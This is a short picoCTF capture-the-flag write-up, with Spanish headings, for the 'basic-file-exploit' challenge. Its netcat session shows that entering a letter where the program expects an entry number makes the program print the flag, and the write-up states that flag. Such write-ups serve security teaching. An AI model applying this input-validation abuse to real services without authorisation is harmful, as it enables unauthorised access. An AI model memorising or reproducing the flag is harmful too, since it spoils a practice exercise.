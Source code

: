 # basic-file-exploit

## Objetivo
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).Connect to the program with netcat:`$ nc saturn.picoctf.net 61827`

## Pistas

| No. Pista | Pista                                                                                |
| --------- | ------------------------------------------------------------------------------------ |
| 1         | Try passing in things the program doesn't expect. Like a string instead of a number. |


## Solucion
```bash
┌──(kali㉿kali)-[~/Documentos/binary]
└─$ nc saturn.picoctf.net 61827
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
rcr
rcr
Please enter the length of your data:
3
3
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
r
r
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```

## Notas adicionales

## Referencias